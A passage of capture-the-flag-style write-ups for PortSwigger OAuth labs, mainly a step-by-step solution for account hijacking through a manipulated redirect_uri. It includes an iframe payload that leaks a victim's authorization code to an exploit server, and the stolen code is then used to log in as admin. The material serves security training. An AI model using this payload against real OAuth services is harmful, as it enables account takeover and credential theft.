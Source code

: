 11. Deliver the exploit to the victim. When their browser loads the ``iframe``, it will complete the 12. OAuth flow using your social media profile, attaching it to the admin account on the blog website.
Go back to the blog website and select the "Log in with social media" option again. Observe that you are instantly logged in as the admin user. Go to the admin panel and delete Carlos to solve the lab.

## OAuth account hijacking via redirect_uri
Reference: https://portswigger.net/web-security/oauth/lab-oauth-account-hijacking-via-redirect-uri


### Quick Solution
For this lab we just have to mess around with the ``redirect_uri`` parameter to get the **authorization code** of the ``admin`` user and then use it to complete the authentication flow.


### Solution
1. While proxying traffic through Burp, click "My account" and complete the OAuth login process. Afterwards, you will be redirected back to the blog website.
2. Log out and then log back in again. Observe that you are logged in instantly this time. As you still had an active session with the OAuth service, you didn't need to enter your credentials again to authenticate yourself.
3. In Burp, study the OAuth flow in the proxy history and identify the **most recent** authorization request. This should start with ``GET /auth?client_id=[...]``. Notice that when this request is sent, you are immediately redirected to the redirect_uri along with the authorization code in the query string. Send this authorization request to Burp Repeater.
4. In Burp Repeater, observe that you can submit any arbitrary value as the ``redirect_uri`` without encountering an error. Notice that your input is used to generate the redirect in the response.
5. Change the ``redirect_uri`` to point to the exploit server, then send the request and follow the redirect. Go to the exploit server's access log and observe that there is a log entry containing an authorization code. This confirms that you can leak authorization codes to an external domain.
6. Go back to the exploit server and create the following ``iframe`` at ``/exploit``:
```
<iframe src="https://YOUR-LAB-OAUTH-SERVER-ID.web-security-academy.net/auth?client_id=YOUR-LAB-CLIENT-ID&redirect_uri=https://YOUR-EXPLOIT-SERVER-ID.web-security-academy.net&response_type=code&scope=openid%20profile%20email"></iframe>
```
7. Store the exploit and click "View exploit". Check that your ``iframe`` loads and then check the exploit server's access log. If everything is working correctly, you should see another request with a leaked code.
8. Deliver the exploit to the victim, then go back to the access log and copy the victim's code from the resulting request.
9. Log out of the blog website and then use the stolen code to navigate to:
```
https://YOUR-LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
```
The rest of the OAuth flow will be completed automatically and you will be logged in as the admin user. Open the admin panel and delete Carlos to solve the lab.

## Stealing OAuth access tokens via an open redirect
Reference: https://portswigger.net/web-security/oauth/lab-oauth-stealing-oauth-access-tokens-via-an-open-redirect
